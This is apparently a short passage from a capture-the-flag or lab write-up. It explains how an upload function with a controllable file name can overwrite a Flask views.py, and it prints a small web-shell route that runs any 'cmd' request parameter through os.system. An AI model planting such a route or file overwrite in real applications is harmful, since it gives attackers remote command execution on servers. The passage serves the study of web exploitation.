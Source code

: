 ![](./IMG/18.png)
- So, I think we can use this vulnerability to disclose the file.
- and with the upload function, we can also change the file_name with payload to upload the file to specify location (ex. replace ```views.py```)

### Craft the malicious views python file

- add the following function in the views file

```
@app.route('/hello')
def rce():
    return os.system(request.args.get('cmd'))
```

![](./IMG/19.png)
- Upload the file to victim server by Upload function
